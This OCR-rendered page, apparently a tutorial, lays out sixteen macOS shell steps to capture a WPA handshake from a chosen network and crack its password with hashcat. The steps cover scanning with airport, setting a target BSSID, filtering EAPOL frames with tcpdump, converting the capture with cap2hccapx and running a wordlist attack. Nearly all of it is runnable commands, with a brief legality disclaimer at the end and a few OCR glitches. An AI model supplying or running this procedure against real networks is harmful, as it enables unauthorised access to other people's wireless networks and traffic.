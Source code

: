 sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
Step 2: Install Hashcat
brew install hashcat

** Step 3: Clone and Compile Hashcat Utils**

git clone https://github.com/hashcat/hashcat-utils.git
cd hashcat-utils/src
gcc -o cap2hccapx cap2hccapx.c
sudo mv ./cap2hccapx /usr/local/bin/

**Step 4: Install Hcxtools**
brew install hcxtools*
Step 5: Install Wireshark

brew install wireshark ( tshark )
Step 6: Scan for Wireless Networks

sudo airport -s
Step 7: Set the BSSID Variable

export BSSID=<BSSID of the target network>
Step 8: List All Network Hardware Ports

networksetup -listallhardwareports
Step 9: Disconnect from the Current Wireless Network

sudo airport -z
Step 10: Connect to a Specific Wireless Channel

sudo airport -c1
Step 11: Set the BSSID Variable Again

export BSSID=6e:57:ca:24:09:8c
Step 12: Capture a Beacon Frame
s

sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 1 -i en0 -w beacon.cap
Step 13: Capture the Handshake

export BSSID=6e:57:ca:24:09:8c
sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i en0 -w handshake.cap
Step 14: Merge the Captured Packets

mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap
Step 15: Convert the Capture to Hashcat Format

cap2hccapx capture.cap capture.hccapx
Step 16: Use Hashcat to Crack the Password

hashcat -m 2500 capture.hccapx wordlist.txt
Remember to replace <BSSID of the target network> with the actual BSSID of the network you are analyzing. Also, replace en0 with the appropriate interface name if your wireless interface is different. You can find the interface name using the command provided in Step 8.

Please use these instructions responsibly and always comply with laws and regulations regarding network security and penetration testing. Unauthorized access to computer networks is illegal and unethical.
